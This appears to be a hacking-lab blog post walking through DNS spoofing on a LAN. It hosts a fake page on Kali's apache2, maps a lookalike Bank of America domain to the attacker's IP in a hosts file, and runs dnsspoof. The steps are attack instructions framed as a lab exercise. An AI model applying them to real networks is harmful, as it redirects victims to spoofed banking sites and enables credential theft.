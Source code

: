 ```yaml
---
layout: post
title: Redirect Access Websites In LAN Using Dnsspoof  
categories: Hacking-Lab
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [hacking, dnsspoof, redirect dns, dns spoofing ]

---
```

## Script:  
Attacker and victim in a LAN network together and victim want to access to websites **www.bankofamerica.com** to make transactions.  
Because **www.bankofamerica** is protected by SSL so attacker can not attack by fake **www.bankofamerica.com**  in their computer. So  
they create a websites has the similar name in their computer, call **www.bankofamerrica.com**, then they find the way to seek to  
make someone else visit **www.bankofamerrica.com** instead **www.bankofamerica.com**.  
## 1. Network Model:  
- **Attacker: 192.168.1.92**
- **User: 192.168.1.173 using windows 7 system**   


## 2. Create Webserver:  
We can you service apache2 in kali linux to create a webserver. we should change content of index.html.    
```
vi /var/www/html/index.html
```    
Type: This Is Fake Websites Of www.bankofamerica.com    
![](/assets/img/2020-3-1-index.png)  
```
service apache2 start 
```    

## 3. Attack:  
```
vi /usr/local/hosts
```    
Type: 
```
192.168.1.92  www.bankofamerrica.com
```     
>:warning: **Warning:** use **TAB** between ip and domain.  
```    
dnsspoof -f /usr/local/hosts
```   
## Result:
![](/assets/img/2021-3-1-result.png)  
![](/assets/img/2020-3-1-result-dnsspoof.png)    
DNS query in wireshark:  
![](/assets/img/2021-3-1-show-dns-query.png)  

